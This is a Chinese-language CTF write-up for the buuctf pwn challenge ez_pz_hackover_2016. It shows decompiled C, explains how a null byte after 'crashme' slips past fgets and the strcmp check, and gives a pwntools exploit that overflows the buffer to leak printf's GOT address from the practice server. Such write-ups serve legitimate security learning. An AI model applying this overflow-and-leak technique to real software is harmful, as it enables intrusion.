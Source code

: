 ```yaml
---
title: buuctf-pwn write-ups (4)
date: 2023-02-28 22:07:00
categories:
- write-ups
- buuctf 系列
---
```

# buu032-ez_pz_hackover_2016
```c
int chall()
{
  size_t v0; // eax
  int result; // eax
  char s[1024]; // [esp+Ch] [ebp-40Ch] BYREF
  _BYTE *v3; // [esp+40Ch] [ebp-Ch]

  printf("Yippie, lets crash: %p\n", s);
  printf("Whats your name?\n");
  printf("> ");
  fgets(s, 1023, stdin);
  v0 = strlen(s);
  v3 = memchr(s, 10, v0);                       // 将中间的换行符换成空字节
  if ( v3 )
    *v3 = 0;
  printf("\nWelcome %s!\n", s);
  result = strcmp(s, "crashme");
  if ( !result )
    return vuln((char)s, 0x400u);
  return result;
}
```
chall函数中打印了一个地址，但是没啥用，不给也能做。

本题一个考察的重点就是fgets函数，这个函数遇到换行输入会截断，但是空字节不会，因此可以在crashme后面加一个空字节，后面仍然能输入我们的payload，绕过检查。
![](1.png)
需要注意的是memcpy的src起始地址并不是crashme的地址，而是crashme的二重指针，也就是说复制之后dest的值并不是crashme。这个地址在crashme的前面，因此需要添加的无效字节数量需要经过计算。

exp：
```python
from pwn import *
from LibcSearcher import *
context.log_level='debug'

# io = process('./pwn')
io = remote('node4.buuoj.cn', 28953)
elf = ELF('./pwn')

payload = b'crashme\x00'
payload += cyclic(2 + 4*4)
payload += p32(elf.plt['printf'])
payload += p32(elf.symbols['chall'])
payload += p32(elf.got['printf'])

io.sendlineafter(b'> ', payload)

io.recvuntil(b'crashme!\n')
printf = u32(io.recv(4))

print(hex(printf))

```